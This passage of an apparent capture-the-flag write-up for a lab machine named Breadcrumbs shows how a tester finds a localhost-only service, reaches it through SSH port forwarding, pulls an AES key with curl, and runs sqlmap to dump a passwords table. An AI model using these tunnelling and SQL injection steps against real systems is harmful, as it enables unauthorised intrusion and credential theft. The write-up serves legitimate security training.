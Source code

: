 Checking open ports on the machine we see that port 1234 is indeed listening on localhost of the machine.

```
development@BREADCRUMBS C:\Users\development>netstat -an

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:22             0.0.0.0:0              LISTENING
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING
...[snip]...
  TCP    127.0.0.1:1234         0.0.0.0:0              LISTENING
...[snip]...
```

To access it from our machine we forward it through the SSH tunnel. To enter the SSH command line press `~C` on a new line.

```
PS C:\Users\development> 
ssh> -L:1234:127.0.0.1:1234
Forwarding port.

```

Curling the service now with the earlier found query we get what looks like an AES key.

```
$ curl 'localhost:1234/index.php?method=select&username=administrator&table=passwords'
selectarray(1) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
}
```

Since it is making database queries it might we vulnerable to SQL injection. Running sqlmap against it we quickly retrieve the database with the encrypted administrator password.

```
$ sqlmap --level 5 --risk 3 -u 'http://localhost:1234/index.php?method=select&username=administrator&table=passwords'
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.5.3#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not re
sponsible for any misuse or damage caused by this program

[*] starting @ 11:01:58 /2021-07-17/

...[snip]...
[11:02:06] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[11:02:06] [INFO] fetching current database
[11:02:06] [INFO] fetching tables for database: 'bread'
[11:02:06] [INFO] fetching columns for table 'passwords' in database 'bread'
[11:02:06] [INFO] fetching entries for table 'passwords' in database 'bread'
[11:02:06] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n
```